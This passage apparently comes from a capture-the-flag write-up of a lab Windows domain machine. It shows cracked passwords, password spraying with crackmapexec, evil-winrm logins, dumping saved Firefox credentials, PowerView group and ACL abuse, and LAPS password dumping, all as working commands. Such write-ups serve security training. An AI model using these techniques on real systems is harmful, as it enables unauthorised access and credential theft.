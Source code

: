 Cracked them and get:

```
get_dem_girls2@yahoo.com (nikk37)
66boysandgirls..         (yoshihide)
##123a8j8w5123##         (Lauren)
!!sabrina$               (Sabrina)
```

We can start trying them with crackmapexec:

```console
zero@pio$ crackmapexec winrm 10.10.11.158 -u users -p passwords

	WINRM       10.10.11.158    5985   NONE             [+] None\nikk37:get_dem_girls2@yahoo.com (Pwn3d!
```

We can make the first connection to the system with `evil-winrm` :

```console
zero@pio$ evil-winrm -i 10.10.11.158 -u nikk37 -p get_dem_girls2@yahoo.com
```

Inside, **winpeas** detect some mozilla credentials:

```
Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
```

We can use this [tool](https://github.com/lclevy/firepwd) to get it in cleartext:

```
admin:JDg0dd1s@d0p3cr3@t0r
nikk37:n1kk1sd0p3t00
yoshihide:paddpadd@12
JDgodd:password@12
```

We can now use PowerView to add the user to the group **CoreStaff**, which has admin privileges.

```console
*Evil-WinRM* PS C:\Users\nikk37\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\nikk37\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Password = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('StreamIO\JDGodd', $Password)
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity "StreamIO\JDGodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity "Core Staff" -Members "StreamIO\JDGodd" -Credential $Cred
```

Now use [LAPSdumper](https://github.com/n00py/LAPSDumper/) to generate a temporal credential and connect to it:

```console
zero@pio$ python3 laps.py -u JDGodd -p JDg0dd1s@d0p3cr3@t0r -d streamio.htb
```

Use it with `evil-winrm` to connect.
